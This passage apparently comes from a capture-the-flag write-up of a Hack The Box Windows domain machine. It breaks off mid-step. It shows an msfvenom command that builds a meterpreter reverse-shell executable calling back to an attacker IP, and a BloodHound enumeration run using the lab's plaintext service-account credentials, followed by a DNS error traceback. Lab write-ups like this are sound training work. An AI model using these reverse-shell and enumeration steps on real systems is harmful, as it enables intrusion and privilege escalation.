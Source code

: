 The msfvenom command to generate the meterpreter is the following:

    :::text
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST="10.10.15.185" LPORT=4444 -f exe > shell.exe

To catch the reverse meterpreter we use the `exploit/multi/handler` metasploit
module. We can get a cmd shell using the `shell` command.

## Bloodhound

As we need to elevate our privileges on a Windows environnement we want to run
Bloodhound to see the differents relationships between the domain's users,
groups and computers.
We use a [bloodhound ingestor based on impacket](https://github.com/fox-it/BloodHound.py)
that allow to grab credentials remotly. But we get some error about DNS
resolution probably because of our VPN configuration.

    :::text
    python ./bloodhound.py -d 'htb.local' -dc 10.10.10.161 -gc 10.10.10.161 -u svc-alfresco -p s3rvice -v -ns 10.10.10.161 -c all
    DEBUG: Authentication: username/password
    DEBUG: Resolved collection methods: localadmin, rdp, dcom, acl, objectprops, session, group, trusts
    DEBUG: Using DNS to retrieve domain information
    DEBUG: Querying domain controller information from DNS
    DEBUG: Using domain hint: htb.local
    INFO: Found AD domain: htb.local
    DEBUG: Found primary DC: FOREST.htb.local
    DEBUG: Found Global Catalog server: FOREST.htb.local
    DEBUG: Using LDAP server: 10.10.10.161
    DEBUG: Using base DN: DC=htb,DC=local
    INFO: Connecting to LDAP server: 10.10.10.161
    Traceback (most recent call last):
      File "./bloodhound.py", line 5, in <module>
        bloodhound.main()
      File "/root/BloodHound.py/bloodhound/__init__.py", line 265, in main
        disable_pooling=args.disable_pooling)
      File "/root/BloodHound.py/bloodhound/__init__.py", line 68, in run
        self.pdc.prefetch_info('objectprops' in collect, 'acl' in collect)
      File "/root/BloodHound.py/bloodhound/ad/domain.py", line 330, in prefetch_info
        self.get_domains(acl=acls)
      File "/root/BloodHound.py/bloodhound/ad/domain.py", line 204, in get_domains
        for entry in entries:
      File "/root/BloodHound.py/bloodhound/ad/domain.py", line 106, in search
        self.ldap_connect()
      File "/root/BloodHound.py/bloodhound/ad/domain.py", line 60, in ldap_connect
        q = self.ad.dnsresolver.query(self.hostname, tcp=self.ad.dns_tcp)
      File "/usr/lib/python2.7/dist-packages/dns/resolver.py", line 992, in query
        timeout = self._compute_timeout(start, lifetime)
      File "/usr/lib/python2.7/dist-packages/dns/resolver.py", line 799, in _compute_timeout
        raise Timeout(timeout=duration)
    dns.exception.Timeout: The DNS operation timed out after 3.0016040802 seconds

We edit the code of `/root/BloodHound.py/bloodhound/ad/domain.py`:
